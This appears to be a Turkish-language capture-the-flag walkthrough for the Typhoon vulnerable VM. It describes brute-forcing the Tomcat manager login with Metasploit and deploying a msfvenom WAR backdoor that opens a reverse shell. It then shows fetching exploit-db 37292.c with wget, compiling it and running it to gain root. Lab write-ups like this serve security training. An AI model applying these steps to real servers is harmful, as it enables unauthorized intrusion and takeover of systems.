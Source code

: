 PRISMACSI’nin hazırlamış olduğu “Hedef ben miyim Tayfun?” dan gelen typhoon vulnerable vm adlı makineyi bu yazımla beraber çözmüş olacağız. Makinenin linki https://www.prismacsi.com/typhoon-vulnerable-vm/ adresinde mevcuttur.

İlk olarak makineyi virtualbox’ımıza kurduktan sonra hangi IP adresini aldığını öğrenmek için netdiscover aracından yararlanmaktayız. Net discoverin sonucunda aşağıdaki resimde de görüldüğü gibi 192.168.1.104 IP adresini aldığını buluyoruz. Bundan sonraki işlemleri bu IP adresi üzerinden yapacağız.
 
 ![alt text](https://github.com/ufcovo/typhoon/blob/main/1.png)
 ![alt text](https://github.com/ufcovo/typhoon/blob/main/2.png)

IP adresini de bulduğumuza göre, şimdi nmap ile port taramasını yaparak açık (open) olan servisleri (services) ve versiyonları (version) öğrenmiş olacağız. Taramayı yaptıktan sonra ise 8080 portunun açık olduğunu ve Tomcat’in çalıştığını gördük. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/3.png)

Tomcat çalışıyor olduğu için 192.168.1.104:8080 adresini ziyaret ettik. Karşımıza It Works (çalıştı) adlı sayfa geldi. Bu sayfayı incelediğimiz de manager webapp adlı linki gördük.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/4.png)

Buna tıkladığımızda ise karşımıza bir login (giriş) ekranı geldi. User Name ve Password bilgilerini istedi.  Bu bilgilere her ne kadar basic olarak tomcat:tomcat yaparak girsekte bu her zaman tutmayabilir. Böyle durumlarda şifreyi kırmanız gerekir. Bunun için de msfconsole adlı araçtan yararlanacağız. Terminale msfconsole yazdıktan sonra karşımıza msfconsole ekranı gelmektedir. Burada yapacağımız iş tomcat’in giriş bilgilerini elde etmek olduğundan ilk önce hangi modülü kullanmamız gerektiğini bilmemiz gerekiyor. search tomcat yazdığımızda msfconsole bizim için tüm tomcat modüllerini karşımıza getirecek. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/5.png)

Şifreyi kırmak istediğimizden dolayı bizi ilgilendiren modülün 9.sıradaki olan modül olduğunu öğrendik. Kısa yolla use 9 dediğimizde otomatik olarak o modüle geçiş sağlanmış oldu. Hangi ayarları yapmamız gerektiğini show options yardımı ile görüyoruz. Karsımıza gelen ekranda RPORT’un otomatik olarak 8080 geldiğini gördüğümüz için değiştirme gereği duymadık. Sadece RHOST’u ayarlamamız gerekmektedir. Bunun için de set RHOST 192.168.1.104 adlı komutu girdik. Burada unutmamız gereken nokta ise RHOST’a hedef IP’yi yazmamız olması. Bunu da girdikten sonra run diyerek brute-force saldırsını başlatmış olduk.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/6.png)

Saldırının sonucunda user name ve password bilgilerine erişmiş olduk. User name; tomcat, password; tomcat.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/7.png)

Gerekli bilgileri girdikten sonra OK diyerek giriş yapıyoruz.
 
 ![alt text](https://github.com/ufcovo/typhoon/blob/main/8.png)

Giriş yaptıktan sonra aşağıdaki gibi bir sayfa gelmektedir. Bu sayfayı inceledikten sonra şunu fark ediyoruz. War uzantılı bir dosyayı deploy edebiliyoruz yani yükleyebiliyoruz. War uzantısı java’nın uzantısıdır. Bu bize şu avantajı sağlar; war uzantılı bir backdoor oluşturup siteye deploy edersek, bunun vasıtası ile sisteme sızabiliriz. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/9.png)

War uzantılı dosyayı msfconsole’a giriş yaptıktan sonra msfvenom üzerinden yapıyoruz. Aşağıdaki gibi bir komut yazıyoruz. Bu komutta LHOST’un dinleyecek olan ip yi yani kendi makinenizi yazmanız gerekmektedir. LPORT ise hangi port üzerinden dinlemek istediğiniz. msf.war ise war uzantısına istediğimiz bir isim veriyoruz. Bunu oluşturup siteye deploy ediyoruz. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/10.png)

Siteye deploy ettikten sonra dinlememiz için gerekli olan ayarlamaları ise yine msfconsole üzerinden yapıyoruz. Bunun için exploit modülü olan multi/handler’i seçiyoruz. Bunu seçtikten sonra payload olarak ise java/jsp_shell_reverse_tcp’yi seçiyoruz. Ardından lhost ve lport’a ise msfvenom oluştururken ki kullandığınız IP ve portu set ediyoruz. Bunları oluşturduktan sonra exploit diyip dinlemeye başlıyoruz. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/11.png)

Dinlemeye başladıktan sonra sızma işleminin başarılı olması için yüklediğimiz deploy’un üstüne tıklamamız gerekmektedir.  

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/12.png)

Tıkladıktan sonra aşağıda da görüldüğü gibi sızma işlemi başarıyla olmuş oldu.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/13.png)

İçeriye sızdıktan sonraki hedefimiz root yetkisi almak. Öncelikle şu an kim olduğumuzu sorgulamak için id komutunu kullanıyoruz. Çıkan sonuçta tomcat kullanıcısı olduğumuzu öğrendik. Root yetkisi almak için uname -a komutu ile kernel bilgilerini elde ettik. 3.13.0-32 generic olduğunu öğrendikten sonra internetten bunun hakkında araştırma yaptığımızda gerekli exploit’in ne olduğunu bulduk. 
https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/local/37292.c  

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/14.png)

Github sayfasından bulduğumuz kodu farklı bir terminal üzerinden wget https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/local/37292.c komutu ile bilgisayarımıza indiriyoruz. İndirdikten sonra terminale python -m SimpleHTTPServer 9000 komutu ile Directory Listening açıyoruz.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/15.png)

Bu komutu girdikten sonra, tarayıcımıza girip 192.168.1.103:9000 yazıyoruz (IP adresinin kendi IP adresi ile değiştirmeyi unutmayın.). Karşımıza gelen web sayfasında kodun ismi olan 37292.c’nin üzerine tıklayıp url kısmını kopyalıyoruz. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/16.png)

Url’yi aldıktan sonra tekrar sızma işlemini yaptığımız terminale dönüyoruz. Burada kodu indirmemiz gerektiği için temp (/tmp) dosyasına girmemiz gerekmektedir çünkü temp bize indirme işlemine izin vermektedir. Genellikle bu tarz makinelerin hepsinde bu böyledir ama ls -la komutu ile izinleri kontrol etmekte fayda var. cd /tmp komutu ile temp klasörünün içerisine giriyoruz. Girdikten sonra kopyaladığımız url’yi wget http://192.168.1.103:9000/37292.c komutu ile indiriyoruz.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/17.png)

İndirdikten sonra indirmiş olduğumuz kodu derlememiz gerekmektedir. Bunun için gcc 37292.c -o exploit komutunu yazarak exploit adında bir output vermesini beklemekteyiz.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/18.png)

Outputumuzu aldıktan sonra işlem yapabilmesi için yetki vermemiz gerekmektedir. Bunun için ise chmod u+x exploit komutunu kullanacağız. Yetki verdikten sonra ./exploit ile çalıştırıyoruz. Bu işlemden sonra id komutunu yazdığımızda tomcat kullanıcısın kaybolup artık root kullanıcısı olduğumuzu görüyoruz.

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/19.png)
  
Root olup olmadığımızı bir şekilde daha kontrol edebiliriz. cd .. ile bir üst dizine çıkıyoruz. Çıktıktan sonra cd root yazıyoruz. ls komutu ile bu dizindeki dosyaları görüyoruz. Resimde de gözüktüğü gibi bir tane root-flag dosyası görüyoruz. Bu dosyayı cat root-flag ile açtığımızda karşımızda bize tebrikler rootsunuz mesajı veriyor. 

  ![alt text](https://github.com/ufcovo/typhoon/blob/main/20.png)

Bilgilendirme yazım bitmiştir. Vakit ayırdığınız için teşekkür ederim. Bir sonraki writeup’da görüşmek üzere.
